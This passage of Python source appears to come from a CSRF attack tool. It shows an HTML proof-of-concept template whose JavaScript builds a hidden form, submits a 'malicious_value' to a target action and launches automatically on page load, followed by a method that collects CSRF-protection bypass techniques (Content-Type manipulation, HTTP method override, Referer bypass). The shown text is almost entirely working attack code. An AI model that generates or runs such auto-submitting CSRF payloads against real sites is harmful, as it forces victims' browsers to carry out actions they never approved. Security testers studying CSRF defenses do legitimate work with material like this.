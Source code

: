 ```python
            }};
            
            xhr.send('action=csrf_test&value=malicious_value');
        }}
        
        // Method 3: Dynamic Form Creation
        function executeCSRF_Form() {{
            const form = document.createElement('form');
            form.method = '{operation["method"]}';
            form.action = '{operation["action"]}';
            form.style.display = 'none';
            
            const input1 = document.createElement('input');
            input1.type = 'hidden';
            input1.name = 'action';
            input1.value = 'csrf_test';
            form.appendChild(input1);
            
            const input2 = document.createElement('input');
            input2.type = 'hidden';
            input2.name = 'value';
            input2.value = 'malicious_value';
            form.appendChild(input2);
            
            document.body.appendChild(form);
            form.submit();
            
            logResult('Dynamic Form', 'Form submitted successfully');
        }}
        
        // Automatic execution
        window.onload = function() {{
            setTimeout(function() {{
                logResult('Auto-execution', 'Starting automatic CSRF attack...');
                executeCSRF_Fetch();
            }}, 2000);
        }};
    </script>
</body>
</html>
'''
        return poc_html
    
    def advanced_csrf_bypass_techniques(self, operation):
        """Advanced CSRF bypass techniques"""
        bypass_techniques = []
        
        # Technique 1: Content-Type manipulation
        bypass_techniques.append({
            'name': 'Content-Type Bypass',
            'description': 'Change Content-Type to bypass CSRF protection',
            'poc': self.generate_content_type_bypass_poc(operation)
        })
        
        # Technique 2: Method override
        bypass_techniques.append({
            'name': 'HTTP Method Override',
            'description': 'Use method override headers',
            'poc': self.generate_method_override_poc(operation)
        })
        
        # Technique 3: Referer bypass
        bypass_techniques.append({
```